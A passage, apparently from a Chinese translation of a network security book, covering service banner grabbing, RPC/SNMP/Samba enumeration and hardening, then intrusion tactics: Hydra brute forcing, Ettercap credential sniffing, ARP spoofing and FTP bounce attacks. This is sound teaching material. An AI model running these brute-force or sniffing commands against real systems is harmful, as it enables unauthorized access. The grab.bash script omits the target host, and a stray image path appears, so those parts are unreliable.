- 如果可能，请考虑禁用 `finger` 服务。它向本地用户和入侵者提供了有关您系统的过多信息。如果您使用 `inetd`，可以通过注释掉 `/etc/inetd.conf` 中相应的行来禁用 `finger`。如果您使用 `xinetd`，请编辑 `xinetd.d` 目录中名为 `finger` 的文件，并确保存在以下行：

  `disable = yes`

为了使更改生效，您必须重新启动 `inetd` 或 `xinetd`。

- 如果您必须运行 `finger` 服务器，请配置您的防火墙以丢弃到端口 `79` 的传入连接。这将防止外部网络上的用户查询您的主机。

## HTTP（超文本传输协议）：80（TCP）

HTTP 是一种无状态协议，用于分發各种超媒体。它最广泛的用途是提供 WWW（万维网）内容。


### 获取 HTTP 服务器横幅

为了从 HTTP 服务器获取横幅信息，请通过 `telnet` 连接到它们正在监听的端口，并发出以下请求：

```
`HEAD / HTTP/1.0[enter][enter]`
```

例如：

```
`(bash)$ telnet www.somecompanyasanexample.com 80`
`Trying 10.0.0.100...`
`Connected to www.somecompanyasanexample.com.`
```


转义字符为 `'^"'`。

`HEAD / HTTP/1.0 [enter]`

`[enter]`

`HTTP/1.1 200 OK`

`Date: Wed, 15 Jan 2003 17:59:12 GMT`

`Server: Apache/1.3.27 (Unix) PHP/4.2.1 mod_jk/1.2.0 mod_ssl/2.8.12 OpenSSL/0.9.6b`

`Content-Location: index.html.en`

`Vary: negotiate,accept-language,accept-charset`

`TCN: choice`

`Last-Modified: Thu, 09 May 2002 19:47:31 GMT`

`Accept-Ranges: bytes`

`Content-Length: 2673`

`Connection: close`

`Content-Type: text/html`

`Content-Language: en`

`Expires: Wed, 15 Jan 2003 17:59:12 GMT`

`Connection closed by foreign host.`

某些 Web 服务器不允许 `HEAD` 请求。在这种情况下，我们必须执行 `GET` 查询：

`GET / HTTP/1.0[enter][enter]`

此查询将返回横幅信息，以及默认的索引页面（如 `index.html`）。

如果您想请求特定的 Web 页面，例如 `contact.html`，您需要在其名称和路径后附加 `GET` 请求：

`GET /contact.html HTTP/1.0[enter][enter]`

> 有时，单个 Web 服务器可用于提供多个域名的内容。在这种情况下，必须在请求中指定特定的域名。这可以通过在 `GET` 请求后键入 `Host: domain-name` 来完成。例如：

> `GET / HTTP/1.0[enter]`

> `Host: www.domainname.com[enter][enter]`

### 更改 HTTP 服务器横幅

如果您正在运行 Apache，请编辑您的 `httpd.conf` 文件并确保存在以下指令：

`ServerSignature Off`

`ServerTokens Prod`

禁用 `ServerSignature` 标记会指示 Apache 在显示诸如“404-Not Found”错误页面时不打印版本信息。当 `ServerTokens` 指令设置为 `Prod` 时，它会指示 Apache 仅在横幅中显示“Server: Apache”。如果您不想在 Server 标签中显示“Apache”，但想显示诸如“Server: Not-allowed”这样的虚假信息，您需要：

1. 下载 Apache 源代码。
2. 编辑文件 `httpd.h` 并更改行中字符串 “Apache” 的值


```c
#define SERVER_BASEPRODUCT "Apache"
```

改为其他内容：

```c
#define SERVER_BASEPRODUCT "Not-allowed"
```

3. 重新编译、重新安装并重启 Apache。

# POP3（邮局协议 3）：110（TCP）

POP3 是用于从邮箱服务器访问电子邮件的协议。

## 获取 POP3 服务器横幅

Telnet 到端口 110 以获取 POP3 服务器横幅信息：

```bash
$ telnet 10.0.1.1 110
+OK POP3 10.0.1.1 v4.39 server ready
```

## 更改 POP3 服务器横幅

许多 POP3 服务器需要编辑其源代码才能更改服务器横幅。在这种情况下，您必须获取 POP3 服务器的源代码，并使用 `grep` 命令搜索版本字符串。一旦您编辑源代码以反映新的横幅信息，请重新编译并重新安装 POP3 服务器。某些 POP3 服务器允许通过编辑相应的配置文件来更改横幅信息。请参阅您的 POP3 服务器文档以获取详细信息。

# Portmapper：111（TCP）

基于 RPC（远程过程调用）的服务（如 NIS（网络信息服务））不在静态端口上监听。这些服务将其端口号注册到 Portmapper。

## 查询 RPC 服务的端口映射

使用 `rpcinfo` 工具可以查询注册在端口映射服务器上的 RPC 服务：

```bash
rpcinfo -p hostname
```

示例：

```bash
(bash)$ rpcinfo -p 192.168.1.1
   program vers proto  port
   100000   4    tcp   111  portmapper
   100000   3    tcp   111  portmapper
   100000   2    tcp   111  portmapper
   100000   4    udp   111  portmapper
   100000   3    udp   111  portmapper
   100000   2    udp   111  portmapper
   100024   1    udp 32782  status
   100024   1    tcp 32779  status
   100133   1    udp 32782
   100133   1    tcp 32779
   100021   1    udp 4045  nlockmgr
   100021   2    udp 4045  nlockmgr
   100021   3    udp 4045  nlockmgr
   100021   4    udp 4045  nlockmgr
   100021   1    tcp 4045  nlockmgr
   100021   2    tcp 4045  nlockmgr
   100021   3    tcp 4045  nlockmgr
   100021   4    tcp 4045  nlockmgr
   100005   1    udp 32795  mountd
   100005   2    udp 32795  mountd
   100005   3    udp 32795  mountd
   100005   1    tcp 32784  mountd
   100005   2    tcp 32784  mountd
   100005   3    tcp 32784  mountd
   100003   2    udp 2049  nfs
   100003   3    udp 2049  nfs
   100227   2    udp 2049  nfs_acl
   100227   3    udp 2049  nfs_acl
   100003   2    tcp 2049  nfs
   100003   3    tcp 2049  nfs
   100227   2    tcp 2049  nfs_acl
   100227   3    tcp 2049  nfs_acl
   100011   1    udp 51802  rquotad
   100235   1    tcp 55451
   100004   2    udp 1007  ypserv
   100004   1    udp 1007  ypserv
   100004      1   tcp       762    ypserv
   100004      2   tcp      51059   ypserv
   100007      3   udp      56186   ypbind
   100007      2   udp      56186   ypbind
   100007      1   udp      56186   ypbind
   100007      3   tcp      51390   ypbind
   100007      2   tcp      51390   ypbind
   100007      1   tcp      51390   ypbind
```

# 第 3 章：枚举


`rpc.rusersd` 和 `rpc.who` 是两个提供类似 finger 命令用户信息的 RPC 服务：

```bash
[bash]$ rusers -l 192.168.1.1
bob   192.168.1.1:pts/1 Jan 15 14:26 :08 (bob@ispaddress.bobhisp.org)
rob   192.168.1.1:pts/4 Jan 15 13:10 1:04 (dhcp.rob@homeisp.org)
```

```bash
[bash]$ rwho 10.0.0.1
deepi 10.0.0.10:pts/2   Jan 15 10:10
joe   192.168.1.11:pts/1  Jan 12 14:33
```

## 禁用端口映射和 RPC 服务

如果您正在运行任何 RPC 服务，强烈建议采取以下措施：

- 如果没有运行任何 RPC 服务，请禁用端口映射（Portmapper）。
- 通过在 `inetd.conf` 中注释掉相应的行来禁用 `rpc.rusersd` 和 `rpc.who`。如果使用 `xinetd`，请在 `xinetd.d` 目录中查找，并确保对应于要禁用的服务的文件中包含以下内容：`disable = yes`。
- 禁用任何未使用的 RPC 服务。

要使更改生效，必须重新启动 `inetd` 或 `xinetd`。

# NNTP（网络新闻传输协议）：119 (TCP)

NNTP 是用于新闻文章的发布、查询、检索和发布的协议。

## 获取 NNTP 服务器横幅

许多 NNTP 服务器在连接时会显示版本信息：

```bash
[bash]$ telnet 192.168.1.1 119
Connected to 192.168.1.1.
Escape character is '^]'.
200 192.168.1.1 InterNetNews NNTP server INN 1.4 22-Dec-93
ready (posting ok).
```

## 更改 NNTP 服务器横幅

许多 NNTP 服务器需要编辑其源代码才能更改服务器横幅。在这种情况下，您必须获取 NNTP 服务器的源代码，并使用 `grep` 命令搜索版本字符串。编辑源代码以反映新的横幅信息后，重新编译并重新安装 NNTP 服务器。一些 NNTP 服务器允许通过编辑相应的配置文件来更改横幅信息。详情请参阅您的 NNTP 服务器文档。

# Samba：137 至 139 (TCP 和 UDP)

Samba 使用 SMB（服务器消息块）协议通过网络共享文件和打印机。SMB 最常用于 Microsoft Windows 操作系统。有关 Samba 项目的详细信息，请访问 [http://www.samba.org](http://www.samba.org)。

## 枚举 Samba 服务器信息

Samba 的 `smbclient` 工具可用于枚举远程 Samba 服务器的信息：


```bash
[bash]$ smbclient -L sambsserver -I 10.0.0.1 -U ''
added interface ip=192.168.1.2 bcast=192.168.1.255 nmask=255.255.255.0
Password: [enter]
Domain=[REMOTEDOMAIN]  OS=[Unix]  Server=[Samba 2.2.8]

Sharename       Type      Comment
---------       -----     -------
IPC$            IPC       IPC Service (Samba Server)
ADMIN           Disk      IPC Service (Samba Server)

Server          Comment
--------        -------
SAMBEASERVER

Workgroup       Master
---------       ------
RGROUP          RMASTERHOST
```

## 更改 Samba 服务器字符串和版本信息

可以采取以下步骤来增强 Samba 服务器配置的安全性：

- 编辑 `smb.conf`，并将 `server string = Samba Server` 更改为其他内容，例如：`server string = no information`。这将更改显示在每个共享名称旁边的描述字段。
- 此外，利用 `smb.conf` 中的 `hosts allow` 和 `interfaces` 设置，以限制外部主机连接到您的 Samba 服务器。
- 要更改实际的 Samba 版本信息，请编辑 `source/include/version.h` 文件，并将常量 `VERSION` 的值更改为其他内容。必须重新编译并重新安装 Samba，更改才能生效。

## IMAP2/IMAP4（互联网消息访问协议 2/4）：143 (TCP)

IMAP2/4 是一种电子邮件访问协议，用于从邮件服务器访问电子邮件。其功能包括将电子邮件存储在远程位置的能力。

### 获取 IMAP 服务器横幅

已知 IMAP2/4 服务器在连接时会打印出带有版本信息的欢迎横幅：

```bash
[bash]$ telnet 192.168.1.1 143
Connected to 192.168.1.1.
Escape character is '^]'.
* OK 192.168.1.1 IMAProver1 v12.264 server ready
```

### 更改 IMAP 服务器横幅

许多 IMAP 服务器需要编辑其源代码才能更改服务器横幅。在这种情况下，您必须获取 IMAP 服务器的源代码，并使用 `grep` 命令搜索版本字符串。编辑源代码以反映新的横幅信息后，重新编译并重新安装 IMAP 服务器。一些 IMAP 服务器允许通过编辑相应的配置文件来更改横幅信息。详情请参阅您的 IMAP 服务器文档。


## SNMP（简单网络管理协议）：161, 162 (UDP)

SNMP 是一种维护协议，用于管理 IP 网络中的节点，例如路由器和交换机。

### 枚举 SNMP

SNMP 服务器配置有“社区字符串”，其作用类似于用户 ID 或密码。当使用错误的社区字符串查询 SNMP 服务器时，它不会响应。许多 SNMP 服务器有默认的社区字符串，例如 `public` 和 `private`。当使用正确的社区字符串查询 SNMP 服务器时，可以获得有用的信息：

```bash
[bash]$ snmpwalk 10.0.0.1 public
TCP/IP
system.sysObjectID.0 = OID: enterprise.36.2.15.2.3
system.sysUpTime.0 = Timeticks: (190724809) 22 days, 1:47:28:09
system.sysContact.0 = unknown
system.sysName.0 = 10.0.0.1
system.sysLocation.0 = Room G11, Ground Floor
interfaces.ifTable.ifEntry.ifPhysAddress.1 = 0:0e7:1:e3:1
interfaces.ifTable.ifEntry.ifPhysAddress.2 =
interfaces.ifTable.ifEntry.ifPhysAddress.3 =
interfaces.ifTable.ifEntry.ifPhysAddress.4 =
```

上述输出只是一小部分，通常输出会有几百行长。显然，上述信息提供了许多配置细节。`snmpwalk` 命令是大多数 Unix 和 Linux 发行版厂商提供的 `net-snmp-utils` 软件包的一部分。也可以从 [http://www.net-snmp.org/](http://www.net-snmp.org/) 获取。

### 防止 SNMP 枚举

如果您有配置了 SNMP 的主机，请考虑以下预防措施：

- 使用 SNMP 版本 2 或 3。
- 使用难以猜到的社区字符串。
- 不要允许来自防火墙的传入 SNMP 流量。
- 限制 SNMP 访问控制列表 `ACL`，仅允许来自特定主机的连接。

## HTTPS（安全超文本传输协议）：443（TCP）

HTTPS 是通过 SSL（安全套接字层）运行的 HTTP。HTTPS 使用 SSL 来建立和维护安全通道，因此它提供客户端和服务器之间的加密通信。

### 获取 HTTPS 服务器横幅信息

可以使用命令行工具 `openssl` 连接到 HTTPS 服务器。与 HTTP（端口 80）的情况类似，可以使用如下请求：

```
HEAD / HTTP/1.0 [enter][enter]
```

或

```
GET / HTTP/1.0 [enter][enter]
```

来获取横幅信息。

示例：

```
[bash]$ openssl s_client -connect:192.168.1.1:443
```

[部分证书信息已删除]

```
HEAD / HTTP/1.0[enter]
[enter]
HTTP/1.1 200 OK
Date: Wed, 15 Jan 2003 17:59:12 GMT
Server: Apache/1.3.27 (Unix) PHP/4.2.1 mod_jk/1.2.0 mod_ssl/2.8.12 OpenSSL/0.9.6h
Content-Location: index.html.en
Vary: negotiate,accept-language,accept-charset
TCN: choice
Last-Modified: Thu, 09 May 2002 19:47:31 GMT
Accept-Ranges: bytes
Content-Length: 2673
Connection: close
Content-Type: text/html
Content-Language: en
Expires: Wed, 15 Jan 2003 17:59:12 GMT

Closed
```

### 更改 HTTPS 服务器横幅信息

请参见“更改 HTTP 服务器横幅信息”。

## NNTPS（安全网络新闻传输协议）：563（TCP）

NNTPS 是通过 SSL（安全套接字层）运行的 NNTP。NNTPS 使用 SSL 来建立和维护安全通道，因此它提供客户端和服务器之间的加密通信。

### 抓取 NNTPS 服务器横幅信息

可以使用命令行 `openssl` 工具连接到 NNTPS 服务器以获取横幅信息：

```
[bash]$ openssl s_client -connect:192.168.1.1:563

[部分证书信息已删除]
```

```
200 192.168.1.1 InterNetNews NNRP server INN 1.4 22-Dec-93 ready (posting_ok).
```

OpenSSL 可在 http://www.openssl.org 获取。

### 更改 NNTPS 服务器横幅信息

请参见“更改 NNTP 服务器横幅信息”。

### IMAPS（安全互联网消息访问协议）：993（TCP）


IMAPS 是通过 SSL（安全套接字层）运行的 IMAP。IMAPS 使用 SSL 来建立和维护安全通道，因此它提供客户端和服务器之间的加密通信。

# 抓取 IMAPS 服务器横幅信息

可以使用命令行 `openssl` 工具连接到 IMAPS 服务器以获取横幅信息：

```
[bash]$ openssl s_client -connect:192.168.1.1:993

[部分证书信息已删除]
```

> * OK [CAPABILITY IMAP4 IMAP4rev1 LOGIN-REFERRALS AUTH=LOGIN]

> localhost IMAP4rev1 2000.283 at Thu, 16 Jan 2003 03:51:56

> -0500 (EST)

OpenSSL 可在 http://www.openssl.org/ 获取。

# 更改 IMAPS 服务器横幅信息

请参见“更改 IMAP 服务器横幅信息”。

# POP3S（安全邮局协议 3）：995（TCP）

POP3S 是通过 SSL（安全套接字层）运行的 POP3。POP3S 使用 SSL 来建立和维护安全通道，因此它提供客户端和服务器之间的加密通信。

## 获取 POP3S 服务器横幅信息

可以使用命令行 `openssl` 工具连接到 POP3S 服务器以获取横幅信息：

```
[bash]$ openssl s_client -connect:192.168.1.1:995
```

[部分证书信息已删除]

> *OK QPOP (version 2.53) at 192.168.1.1 starting.

> <3413.1213453134@192.168.1.1>

OpenSSL 可在 http://www.openssl.org/ 获取。

## 更改 POP3S 服务器横幅信息

请参见“更改 POP3 服务器横幅信息”。

# MySQL：3306（TCP）

MySQL 是一个流行的开源数据库软件包。可从 http://www.mysql.com/ 获取。

## 枚举 MySQL 版本信息

通过 `telnet` 客户端连接到远程 MySQL 服务器的端口，可以获取远程 MySQL 服务器的版本号：

```
[bash]$ telnet 10.0.0.1 3306
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
3.23.45&/r/3Nod*Connection closed by foreign host.
```



## 仅允许本地连接

不允许内网外部的宿主连接 MySQL 服务。确保防火墙规则存在以阻止此类连接尝试。应鼓励经过授权的外部用户使用 SSH 等安全隧道工具建立远程连接。


虽然可以编辑 MySQL 源代码以更改连接时立即显示的版本信息，但这可能会破坏许多 MySQL 客户端的正常运行。

## 自动化横幅抓取

Ncat 是一个用于通过 TCP 或 UDP 读取和写入网络连接数据的工具。它可用于像命令行 `telnet` 客户端那样连接到远程服务器，或在特定端口上监听传入连接。它还有许多其他有趣的功能，您将在后续章节中探索。Ncat 可在 [http://www.atstake.com/research/tools/network_utilities/](http://www.atstake.com/research/tools/network_utilities/) 获取。

Ncat 可以按以下方式抓取 SMTP 横幅信息：

```
$ nc 192.168.1.1 25
220 192.168.1.1 ESMTP Sendmail 8.10.2+Sun/8.10.2; Tue, 14 Jan 2003 09:28:02 -0500 (EST)
```

通过一些 bash shell 编程，您可以使用 Ncat 执行自动化的横幅抓取。例如，考虑以下脚本（让我们称之为 `grab.bash`）：

```
#!/bin/bash

if [ $# -lt 1 ]
then
    echo Usage: $0 host
    exit 1
fi

i=21
while [ "$i" -lt 26 ]
do
    nc -v $i < /dev/null
    i=`expr $i + 1`
    echo
done
```

此脚本由变量 `$i` 从 21 到 25 的 `while` 循环组成。在 `while` 循环内，在端口值为 `$i`（21 到 25）上对主机（传递给脚本的第一个参数，即 `$1`）建立连接，并将 `/dev/null` 作为输入提供给 Netcat 连接。由于 `/dev/null` 是一个包含无内容（null）的特殊文件，Netcat 将在抓取横幅的第一行（如果有）后立即终止。

在尝试执行上述脚本之前，必须授予执行权限：

```
[bash]$ chmod u+x ./grab.bash
```

现在运行脚本：

```
[bash]$ ./grab.bash 192.168.1.1
192.168.1.1 [192.168.1.1] 21 (ftp) open
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
221 You could at least say goodbye.

192.168.1.1 [192.168.1.1] 22 (ssh) open
SSH-1.99-OpenSSH_3.4p1

192.168.1.1 [192.168.1.1] 23 (telnet) : Connection refused

192.168.1.1 [192.168.1.1] 24 (?) : Connection refused

192.168.1.1 [192.168.1.1] 25 (smtp) open
220 192.168.1.1 ESMTP Sendmail 8.9.3/8.9.3; Fri, 17 Jan 2003 14:13:10 -0500 (EST)
```

如果需要针对各种主机执行上述脚本，您可以针对您的 `grab.bash` 脚本编写一个封装脚本，如下所示：

```
#!/bin/bash
for i in `cat hosts.txt`
do
    ./grab.bash $i
    echo
done
```

上述脚本，可以称为 `wrapper-grab.bash`，将针对列在 `hosts.txt` 文件中的主机执行我们的原始脚本 `grab.bash`。`hosts.txt` 文件必须包含目标主机的域名或 IP 地址，如下所示：

```
192.168.1.1
10.0.0.1
somecompanyasanexample.com
```

尽管上述脚本可以与大多数服务一起工作，但请记住，您需要发出 HEAD 请求才能获取 HTTP 横幅。为了做到这一点，Ncat 可以这样使用，其中 `getrequest.txt` 是一个包含以下内容的文件：

```
HEAD / HTTP/1.0[enter]
[enter]
```

请记住，对于 HTTPS、NNTPS、IMAPS 和 POP3S 等 SSL 端口，请如前所述使用 `openssl` 代替 Ncat。

### 总结

本章介绍了使用 Amap 工具识别运行在非标准端口上的服务的方法，以及手动和自动识别运行在标准端口上的服务的方法。您还查看了几种远程枚举用户名的不同方法。现在，您准备好进入第 4 章，在那里您将使用本章获得的信息来利用远程服务，以获取对易受攻击主机的访问权限。

# 第 4 章

# 远程渗透

### 本章内容：

- 远程服务
- Nessus
- 获取 Shell
- 端口转发
- 破解 `/etc/shadow`
- 总结

本章将聚焦于入侵者常用于未经授权访问远程主机的技术。在识别服务并枚举所有可能的用户后，攻击者的下一个逻辑步骤是利用目标主机上已知的服务和应用程序漏洞来攻陷受害者主机。

# 远程服务

如果目标主机的主要目标是充当服务器，它必须允许对相关的 TCP 或 UDP 端口进行远程访问。只要存在一个开放的网络端口，未经身份验证的用户就存在尝试入侵的机会。

在查看常见被利用服务的详细列表之前，我们必须首先理解入侵者使用的不同策略类型。

#### 入侵策略


根据远程主机上开放的端口和服务，攻击者可能会选择使用许多不同的技术来尝试未经授权访问。以下部分描述了潜在入侵者远程攻陷易受攻击主机时使用的许多常见策略。

## 暴力破解

如果远程服务通过用户名和密码对进行用户身份验证，获取访问权限的最明显方法是尝试所有可能的用户名和密码组合。一种更高效的方法是仅尝试通过第 3 章中描述的成功的用户名枚举技术所积累到的已知用户名。由于用户倾向于选择在字典中可以找到的易于记忆的密码，许多暴力破解工具都利用了语言字典文件。

为了演示接下来的示例，我们将使用 `Hydra`，这是一个支持多种协议的暴力破解工具。它可从 <http://www.thehackerschoice.com/releases.php> 下载。

> i 此处描述的尝试所有可能用户名和密码组合的行为被称为“主动”暴力破解。另一方面，像 `John the Ripper` 这样的密码破解工具可以用来暴力破解密码哈希值，这种技术被称为“被动”暴力破解。详情请参阅本章末尾的“破解 `/etc/shadow`”部分。

### 针对暴力破解攻击的常见防御措施

以下是保护用户免受用户名和密码暴力破解的一些预防措施列表：

- 强制用户使用强密码。位于 <http://www.utexes.educ/es/unix/softwate/npasswd> 的 `npasswd` 工具和位于 <http://www.openwall.com/passwdq/> 的 `pam_passwdqc` 工具有助于强制执行强密码策略。
- 要求密码老化并执行密码长度限制。根据您使用的发行版，编辑 `/etc/default/passwd` 或 `/etc/login.defs` 以完成此操作。
- 考虑使用动态密码方案，如 `S/KEY` 和 `SecurID`。

## 嗅探

在正常操作期间，目的地为其他主机的网络数据包会被网卡忽略。然而，通过使用嗅探程序（也称为“网络分析器”），大多数网卡可以被设置为运行在“混杂模式”下，这使得网卡将所有接收到的网络数据包传递给操作系统的 TCP/IP 协议栈。这允许任何人检查主机接收到的每个网络数据包。由于许多协议以明文传输数据，恶意用户可以使用网络分析软件捕获用户名和通过网络传输的密码等关键数据。

在基于集线器的网络中，同一网段上的主机发送和接收的数据包会被所有其他参与主机接收。在这种情况下，恶意用户只需将其网卡设置为混杂模式，即可捕获网段上的所有数据。

然而，在交换网络中，硬件交换机设备确保主机仅接收目的地为其自身的数据包。每个以太网设备都由其供应商分配一个 12 位十六进制数。这个数字被称为该设备的 MAC（介质访问控制）地址。当交换网络上的主机传输数据时，其 MAC 地址会被交换机记录并存储在缓存中。未来目的地为该主机 MAC 地址的数据包会被传输到主机所连接的交换机硬件端口。`Ettercap` 等工具可用于执行 ARP 欺骗，其中伪造的 ARP（地址解析协议）响应被用于在交换机上代理流量。考虑网络交换机上存在以下主机：

- V 受害者主机
- G 网关主机
- M 恶意主机

为了执行 ARP 欺骗，主机 M 将向主机 G 和 V 发送 ARP 响应数据包。这些 ARP 响应数据包将导致主机 V 将主机 M 的 MAC 地址与主机 G 的 IP 地址相关联，并导致主机 G 将主机 M 的 MAC 地址与主机 V 的 IP 地址相关联。由于以太网数据包根据 MAC 地址路由，主机 M 将接收从主机 G 和 V 发送的所有数据包。现在，如果主机 M 通过用主机 G 或 V 的 MAC 地址替换它们的 MAC 地址，将这些数据包路由到正确的目的地，那么受害者主机 G 和 V 将完全不知道它们的连接正在被主机 M 代理。`Dsniff` 和 `Ettercap` 等工具可用于执行 ARP 欺骗。

可以在 <http://ettercap.sourceforge.net/> 下载 `Ettercap`。`Dsniff` 可在 <http://monkey.org/~dugsong/dsniff/> 获取。

### 常见的嗅探对策

网络嗅探工具使得恶意用户能够轻松捕获网段上的数据。强烈建议采取以下对策：

- 不要使用明文协议。
- 某些交换机允许管理员静态映射 MAC 地址。然而，对于大型公司，这可能不可行。
- 许多 `IDS`（入侵检测系统）可以检测并报告 ARP 欺骗。`Ettercap` 可用于帮助检测网络上的伪造 ARP 响应。

### 中间人攻击

这种类型的攻击涉及恶意用户拦截并修改两个或更多受害者主机之间的数据。

例如，请注意，在入侵者成功攻陷 `somecompanyasaneexample.com` 的内部 DNS 服务器后，入侵者可能会修改 DNS 服务器配置，以将所有针对 `intranet.somecompanyasaneexample.com` 的 DNS 查询响应指向入侵者的 IP 地址。这将导致用户无意中连接到入侵者的主机，而不是 `intranet.somecompanyasaneexample.com`。然后，入侵者可以通过连接到 `intranet.somecompanyasaneexample.com` 的真实 IP 地址来代理受害者的连接。在此场景中，入侵者将成功发起中间人攻击。


### 防止中间人攻击

使用安全协议，如 `SSH`、`IMAPS` 和 `HTTPS`。虽然这些协议可能容易受到中间人攻击，但它们利用了加密密钥和证书，这将导致软件客户端警告最终用户可能存在攻击。


### 错误配置

通常，服务被错误配置，向未经身份验证的用户暴露了不必要信息。有时，错误配置可能导致主机的完全攻陷。常见的错误配置及其防御措施列在下面的“远程服务漏洞”部分。


### 审计并加固主机配置

定期审计和加固主机配置策略是个好主意。请参阅本书第二部分的章节，了解如何加固策略和服务的说明。


#### 软件漏洞

软件漏洞是由设计缺陷引起的，例如输入验证不当和边界检查缺失。此类漏洞通常可以远程利用，使攻击者能够在运行易受攻击软件的主机上执行恶意代码。

*缓冲区溢出* 是许多可远程利用条件的成因。当进程向内存中分配缓冲区空间之外写入数据时，就会发生缓冲区溢出。这导致可执行堆栈空间被任意数据覆盖。攻击者可以通过提供恶意构造的输入来利用这种条件，该输入可能导致进程使用攻击者提供的可执行数据覆盖其堆栈空间。欲了解更多信息和细节，请参见“Smashing the Stack for Fun and Profit”，作者为“Aleph One”，可在 <http://www.insecure.org/stf/smashtack.txt> 获取。

许多在线安全资源发布了针对各种漏洞的漏洞利用代码。请务必谨慎对待此类漏洞利用，因为它们确实可能包含恶意后门，从而导致执行该漏洞利用的主机遭到入侵。在虚拟机环境中测试未知的漏洞利用是一个好主意。最广泛使用的虚拟机软件由 `VMware` 提供。详情请参见 http://www.vmware.com/。

#### 针对软件漏洞利用的常见防御措施

有时，软件漏洞的远程利用代码会在漏洞通告或补丁发布之前公布。此类漏洞利用通常被称为零日漏洞（zero-day exploits）。要防御针对未公开漏洞的利用是不可能的。然而，除了遵循以下建议外，每位系统管理员还必须密切关注并应对异常的系统活动：

- 保持软件补丁的最新状态。
- 订阅漏洞监控列表，例如 `Bugtraq`。（访问 http://securityfocus.com/cgi-bin/sf/online/subscribe.pl 获取更多信息。）请参阅本书参考中心中的“在线资源”部分，以获取更多其他安全资源的指针。
- 为防止某些类型的缓冲区溢出，有几种可用的解决方案：
  - `StackGuard`: http://www.immunix.org/stackguard.html
  - `Libsafe`: http://www.research.avalayalabs.com/project/libsafe/
  - `StackGhost`: http://stackghost.cerias.purdue.edu/
  - `Openwall`: http://www.openwall.com/linux
  - 如果使用 Solaris，请编辑 `/etc/system` 并添加以下行：
```
set noexec_user_stack=1
set noexec_usr_stack_log=1
```
- 监控并处理 `IDS` 日志。

#### 远程服务漏洞


以下列出了常被利用的服务。这是基于这些服务通常监听的已知标准端口号。

### 识别运行在非标准端口上的服务

此处列出的任何服务都可以配置为监听非标准端口。诸如 `Amap` 等工具（可在 [http://www.thehackerschoice.com/releas-es.php](http://www.thehackerschoice.com/releas-es.php) 获取）可用于确定监听未知或非标准端口的服务：

```bash
[bash]$ amap -sF intranet,somecompanyas anexample.com 9934
Total amount of tasks to perform: 15
Amap v1.2.1b started at Sun Mar  9 09:30:22 2003, stand back and keep the children away.
Protocol on IP 192.168.1.3 port 9934 tcp matches ssl
Protocol on IP 192.168.1.3 port 9934 tcp matches http
Unidentified ports: None.
Amap v1.2.1b ended at Sun Mar  9 09:30:59 2003
```

在此示例中，`Amap` 成功发现主机 *intranet.somecompanyas anexample.com* 正在端口 `9934` 上运行 `HTTPS`。这是一个有用的信息，因为 `HTTPS` 的标准保留端口是 `443`。

### 阻止和停止不必要的服务


某些服务被配置为接受来自任何源 IP 地址的连接。例如，电子商务组织的 `HTTP` 服务器必须接受来自任何 IP 地址的连接，以便允许所有地区的远程用户查看该组织的网站。在这种情况下，组织无法隐藏其正在运行 `HTTP` 服务器的事实。

然而，根据组织的需求和网络架构，某些服务可能仅期望接受来自授权 IP 地址的连接。在这种情况下，应部署防火墙规则，以确保阻止来自未授权 IP 地址的连接。此外，必须关闭或不必要的服务必须通过防火墙规则被阻止。这将防止未授权的远程主机利用和识别不应被其访问的服务。

### FTP（文件传输协议）：21 (TCP)

`FTP` 是一种用于在主机之间传输文件的协议。

**暴力破解** 可以使用 `Hydra` 对 `FTP` 账户进行暴力破解。

#### 暴力破解 FTP

以下是如何使用 `Hydra` 暴力破解 `FTP` 账户的示例：

```bash
[bash]$ hydra -L usernames.txt -P passwords.txt ftp.somecompanyforexample.com ftp
Hydra v2.2 (c) 2002 by van Hauser / THC - use allowed only for legal purposes.
Hydra is starting! [parallel tasks: 4, login tries: 4 (1:2/p:2)]
[21] [ftp] login: joe  password: mypassword
Hydra finished.
```

#### 防止 FTP 暴力破解

请参见“针对暴力破解攻击的常见防御措施”。

**嗅探** 由于 `FTP` 是一种明文协议，因此可以捕获在网络上传输的用户名和密码。诸如 `Ettercap` 等工具可以方便地捕获 `FTP` 数据。

#### 嗅探 FTP 认证

以下是如何使用 `Ettercap` 捕获通过网络传输的 `FTP` 凭据的示例：

```bash
[bash]# ettercap -M -C -N

ettercap 0.6.7 (c) 2002 ALoR & NaGA

Your IP: 10.0.0.102 with MAC: 01:11:04:03:6A:A3 on Iface: eth0

Loading plugins... Done.

Resolving 1 hostnames...

* |==========================================================================| 100.00 %

Press 'h' for help...

 Sniffing (MAC based): ANY <--> ANY

 TCP + UDP packets... (default)

 Collecting passwords...
```

07:04:58  10.0.0.102:4814 <--- 192.168.1.1:21      ftp

USER: smith

PASS: myp455word

### 使用安全协议

不要使用 `FTP` 等明文协议。考虑使用 `HTTPS` 或 `SSH` 进行安全的文件传输。

#### FTP 配置错误

由于配置错误问题，`FTP` 客户端和服务器容易受到远程利用。以下段落涵盖了针对此类配置错误的最常见攻击。

#### 弹射攻击

由于 `FTP` 协议的设计，当 `FTP` 客户端使用“主动”模式请求数据传输时，`FTP` 服务器必须主动发起连接到 `FTP` 客户端的端口。`FTP` 客户端发出带有其 IP 地址和监听端口号作为参数的 `PORT` 命令。如果 `FTP` 客户端发出带有其他主机 IP 地址的 `PORT` 命令，那么 `FTP` 服务器将尝试连接到该主机。因此，`FTP` 协议的这一功能可用于代理端口扫描。您可以利用 `nmap` 的 `-b` 选项执行此类扫描。

一旦发出 `PORT` 命令，恶意客户端可以执行 `RETR` 命令，将包含命令的文件发送到 `FTP` 服务器。这将导致 `FTP` 服务器将给定文件的内容转储到由 `PORT` 命令指定的主机的给定端口。该文件可能包含 `SMTP` 命令，例如，这使得恶意 `FTP` 客户端用户可以通过 `FTP` 服务器代理电子邮件。

#### 防止弹射攻击成功

为确保防御 `FTP` 弹射攻击，请确保已采取以下预防措施：

- 配置您的 `FTP` 服务器，以便在发出 `PORT` 命令时拒绝连接到除客户端以外的 IP 地址。大多数最新的 `FTP` 服务器默认执行此操作。
- 指示防火墙不允许源端口为 `20` 的传入连接。但请注意，此规则可能会阻止合法连接。

#### 连接窃取

当 `FTP` 客户端在发出带有其 IP 地址和端口号的 `PORT` 命令后发送 `PASV`（被动）命令时，服务器开始在请求的端口上监听连接。此时，恶意用户可能在客户端之前连接到服务器的端口。根据 `FTP` 客户端发出的下一条命令，恶意用户现在可能有权访问传输的数据。

